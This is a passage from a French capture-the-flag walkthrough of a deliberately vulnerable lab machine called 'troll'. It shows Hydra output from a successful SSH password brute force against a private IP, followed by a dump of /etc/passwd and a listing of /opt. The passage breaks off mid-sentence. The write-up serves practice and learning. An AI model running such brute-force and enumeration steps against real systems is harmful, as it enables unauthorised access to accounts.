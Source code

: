 ```plain
[RE-ATTEMPT] target 192.168.1.78 - login "wytshadow" - pass "Pass.txt" - 7 of 10 [child 0]
[RE-ATTEMPT] target 192.168.1.78 - login "wytshadow" - pass "Pass.txt" - 7 of 10 [child 0]
[RE-ATTEMPT] target 192.168.1.78 - login "wytshadow" - pass "Pass.txt" - 7 of 10 [child 0]
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
$ ./hydra -R
Hydra v8.0 (c) 2014 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2014-08-22 08:08:31
[DATA] max 1 task per 1 server, overall 1 tasks, 10 login tries (l:10/p:1), ~10 tries per task
[DATA] attacking service ssh on port 22
[RE-ATTEMPT] target 192.168.1.78 - login "wytshadow" - pass "Pass.txt" - 7 of 10 [child 0]
[ATTEMPT] target 192.168.1.78 - login "wytshadow" - pass "Pass.txt" - 8 of 10 [child 0]
[ATTEMPT] target 192.168.1.78 - login "vis1t0r" - pass "Pass.txt" - 9 of 10 [child 0]
[ATTEMPT] target 192.168.1.78 - login "overflow" - pass "Pass.txt" - 10 of 10 [child 0]
[22][ssh] host: 192.168.1.78   login: overflow   password: Pass.txt
[STATUS] attack finished for 192.168.1.78 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2014-08-22 08:08:37
```

Une fois l'accès obtenu on voit que plusieurs utilisateurs ont été créés :  

```plain
troll:x:1000:1000:Tr0ll,,,:/home/troll:/bin/bash
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:104:112:ftp daemon,,,:/srv/ftp:/bin/false
lololol:x:1001:1001::/home/lololol:
overflow:x:1002:1002::/home/overflow:
ps-aux:x:1003:1003::/home/ps-aux:
maleus:x:1004:1004::/home/maleus:
felux:x:1005:1005::/home/felux:
Eagle11:x:1006:1006::/home/Eagle11:
genphlux:x:1007:1007::/home/genphlux:
usmc8892:x:1008:1008::/home/usmc8892:
blawrg:x:1009:1009::/home/blawrg:
wytshadow:x:1010:1010::/home/wytshadow:
vis1t0r:x:1011:1011::/home/vis1t0r:
```

Toutefois ils ne disposent pas de shells et seul *troll* dispose vraiment d'un dossier dans */home/*.  

Le nombre de fausses pistes se réduit ainsi à 0.  

On trouve un script Python que l'on ne peut malheureusement pas lire :  

```plain
overflow@troll:/$ ls -l /opt/
total 4
-rwx--x--x 1 root root 117 Aug 10 02:11 lmao.py
```

La liste des fichiers appartenant à *troll* montre peu d'intérêts :  
